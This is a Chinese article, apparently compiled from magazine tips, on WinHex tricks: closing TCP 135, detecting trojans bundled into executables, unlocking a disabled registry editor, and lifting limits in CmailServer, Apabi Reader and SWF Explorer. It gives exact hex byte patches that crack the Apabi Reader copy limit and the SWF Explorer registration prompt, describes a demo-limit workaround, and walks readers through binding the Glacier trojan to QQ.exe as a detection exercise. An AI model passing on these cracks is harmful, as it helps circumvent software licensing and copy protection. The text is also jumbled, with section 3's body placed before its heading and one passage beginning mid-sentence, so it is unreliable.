

图1

由于文件可能被系统占用，文中建议在DOS/安全模式下用工具（如 `pulist.exe`）查找 `svchost.exe` 对应PID，再用 `pskill.exe`（或XP下 `tasklist/taskkill`）结束进程后覆盖回写 `rpcss.dll`。



图2

重启后可在命令行执行 `netstat -an` 验证端口变化。文中称在Windows 2000下可不再看到TCP 135端口，XP下也可观察到对应变化。

## 二、利用WinHex识破捆绑有木马的文件

该节引入“木马捆绑”场景，指出攻击者常将恶意程序与热门软件捆绑传播（例如通过可执行打包/绑定工具），并提示可借助WinHex对文件结构与可疑内容进行识别分析。

宿主程序执行时，寄生程序（黑客程序如木马等）也在后台被执行，当你再次上网时就会在不知不觉中被控制住！恐怖的是还可以随意设置捆绑程序文件的属性以及指定任意图标，而捆绑程序比原始文件只增大约27KB。是不是觉得很危险呢？采用WinHex就可以轻松识破捆绑有木马的文件，还你一个安全的网络环境。

首先，我们来做一个实验。到 http://crc.onlinedown.net/down/EBundle.exe 下载EXE Bundle，然后用它把QQ.exe文件和木马冰河的服务端程序捆绑在一起，捆绑界面如图3所示。最后生成一个程序，还是叫QQ.exe。现在，用某杀毒软件进行检查，没有发现捆绑有木马！OK，让WinHex来一展身手吧！



接下来运行WinHex，用它打开捆绑后的QQ.exe文件，然后单击“搜索”菜单下的“查找文本”，在“下列文本字符串将被搜索”一栏中输入 This program，单击“确定”开始查找。如果你找到多于2个“This program”字符串，则证明该文件捆绑有其他文件，而这就可能是木马！对于EXE捆绑机产生的伪造Flash文件，还可以配合一款查看文件调用函数的工具来进行检查。比如APISPY就可以查出可执行文件调用了哪些函数，如果你发现Flash文件调用了 wsock32.dll、winsock.dll 之类的函数，则必然是含有木马无疑！另外，建议大家把杀毒软件的实时监控功能随时开启，对于普通病毒还是很有用的。图3捆绑木马时的界面，如图4所示。



“16进制数值”，打开“查找16进制数值”对话框，在“下列16进制数值将被搜索”一栏中输入 `85C075408D45FC`，找到后在中间的16进制代码区里将这些代码改为 `85C0EB408D45FC`，如图5所示。



最后保存修改结果，关闭WinHex退出即可。使用Windows XP的朋友可以试试这个方法。下面我们做个试验看上面的招数是否管用。先把自己的注册表编辑器禁用（运行 regedit.exe，到注册表中把 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System` 下的DWORD值“Disableregistrytools”的键值改为1），然后再按照上面的方法修改 regedit.exe，运行 regedit.exe 试试，一点问题也没有，别人根本无法禁用你的注册表编辑器！

另外，我们还可以利用下面的方法给注册表编辑器解锁。方法是：单击“搜索”菜单中的“查找文本”，然后搜索如下字符 Disableregistrytools，把“Unicode字符集”勾选上，如图6所示。



会找到下面这样的代码 Disableregistrytools，把其中的“D”替换为任意字母或数字，其他内容不用改（当然你也可以把这些字符都替换掉，只是太麻烦了，改任意一处即可），就可以解除注册表编辑器的禁用。但是，请不要把“Disableregistrytools”的键值恢复为0或删除该DWORD值，否则 regedit.exe 会自动恢复你修改过的字符，注册表编辑器又会恢复到你修改前的样子，这样下一次注册表编辑器被禁用还得再修改 regedit.exe 文件。如果你不改 Disableregistrytools 的键值或不删除该键，则没有任何问题，注册表编辑器将一直无法锁定。总的来说，这是一个不错的思路、一个很另类的方法，你说对吗？并且这个方法对Windows 9x/2000/XP都有效，比上面的方法应用范围更广一些。以后，在防范恶意网页时不妨试试这个方法，非常灵验！

#### 三、解除注册表编辑器禁用新妙招

注册表编辑器被禁用非常令人头痛，大多数人都是利用第三方工具软件如Windows优化大师等来解决这个问题。其实，利用十六进制文件编辑软件WinHex也可以解决注册表编辑器禁用问题，而且效果更好！具体方法：运行WinHex，用它打开系统所在文件夹下的 regedit.exe 文件，然后点击“搜索”菜单下的“查找”。

## 四、解除Cmail Server的功能限制

CmailServer是目前国内非常流行的邮件服务器软件。CMailServer以设置简单、容易使用、稳定性出色……得到了用户的广泛赞誉，而灵活的 Web 邮件服务二次开发接口使其在众多邮件服务器软件中显得一枝独秀。CmailServer 支持互联网邮件收发、网页邮件收发（Webmail）、邮件代理、邮件杀毒、邮件过滤、邮件监视、邮件备份、邮件转发、多域名邮件收发、邮件发送验证等功能。软件本身非常不错，可惜对一般用户来说有个小小的限制：演示版（未注册版）中只能建立 5 个账号，多一个都不行。是不是必须花钱注册才能解决这个问题呢？当然不是！我们可以利用一个简单的方法去掉这个限制。

下面说说具体的解决办法。首先要在服务器上安装微软公司的 Web 服务器程序，这是使用 CmailServer 的前提。如果操作系统为 Win98/Me，需要预装微软 Web 服务器 PWS（Peer Web Server）；如果操作系统为 Windows NT，要求版本为 4.0 以上，需要预装微软 IIS（Internet Information Service）；如果操作系统为 Windows 2000/XP，由于 Windows 2000/XP 已经预装了 IIS，无需再安装其他软件。注意，如果没有安装 IIS，可以通过顺次单击“控制面板 -> 添加/删除程序 -> 添加/删除 Windows 组件”，来选择安装 Internet 信息服务（IIS）。另外要注意的是如果你用的是 CMailServer 5.0 版本，服务器上要安装 Access 2000 及以上版本。



图7

接下来在 CmailServer 中建好 5 个账号（单击“账号”菜单下的“新建账号”选项），当你要再建立一个账号时，会弹出一个对话框提示你“演示版只支持 5 用户”，如图8所示。



图8

不要紧，我们就是要突破 CmailServer 演示版中只能添加 5 个账号的限制。单击“账号”菜单下的“删除账号”选项，如图9所示。把你新建立的账号全部删除掉，然后再建立 5 个账号，把它们再删除，如此反复进行直到你想添加的客户都建立完毕为止。最后一步，单击“工具”菜单下的“用户删除管理”，如图10所示。



图9



图10

这时会弹出“用户删除管理”窗口，如图11所示。



图11

在该窗口中先单击“全选”按钮把你删除的账号全部都选中，随后再单击“恢复”按钮，再单击“关闭”按钮关闭该窗口，返回到 CmailServer 主界面中。请大家仔细看，在 CmailServer 主窗口中你原先建立好的账号都恢复到其中了，如图12所示。



图12

这样就突破了 CmailServer 演示版中只能添加 5 个账号的限制，和注册用户一样，我们也可以添加任意多个账号了！是不是很简单呢？不仅一分钱也没有花，而且没有反汇编该软件，绝对合法！使用 CmailServer 的朋友快点试试吧！

#### 五、解除方正 Apabi Reader 的限制

方正阿帕比阅读软件（方正 Apabi Reader）是一款用于阅读电子文档的浏览阅读工具，支持 CEB、XEB、PDF、HTML 和 TXT 等多种文件格式。方正 Apabi Reader 可以复制有密码保护的 PDF 文档，颇具特色。不过，方正 Apabi Reader 也有个令人头痛的地方，即无论用它打开任何文档，每次复制的内容都不能超过 400 个英文字符（200 个汉字），否则就会弹出一个对话框告诉你无法复制，如图13所示。



图13

利用 WinHex 可以轻松地解决这个令人感到棘手的问题。具体方法如下：运行 WinHex，单击工具栏上的“打开”按钮，找到方正 Apabi Reader 安装目录下的 PlugIn 文件夹，在里面用鼠标指向 SmartReader.dll 文件，单击“打开”按钮打开该软件，然后按下 Ctrl+Alt+F 组合键打开“查找16进制数值”对话框，在“下列16进制数值将被搜索”文本框中输入代码 397424100F8E9A000000，单击“确定”按钮，WinHex 就会找到上述代码，如图14所示。



图14

把上述代码改为 39742410E99B00000090，最后单击工具栏上的“保存”按钮并退出 WinHex 即可。用方正 Apabi Reader 打开任意一本电子书，选定多于 400 个英文字符的内容进行复制，没有出现任何问题，你会发现我们成功了！

#### 六、无限延长 SWF 探索者播放器使用时间

SWF 探索者是一个面向 Flash 爱好者的软件，具备下载、收藏管理、播放控制、抓图、片段选择等功能。每次启动该软件都会出现注册提示窗口。可使用 WinHex 打开 SWFPlayer.exe，在“查找16进制数值”中搜索并替换指定代码，保存后即可去除该限制。

具体方法：运行 WinHex，打开 SWF 探索者播放器安装目录下的 SWFPlayer.exe，执行“搜索→查找16进制数值”，在搜索框中输入 E896DFF3FF0F94C3，找到后改为 E896DFF3FF909090，保存并退出。

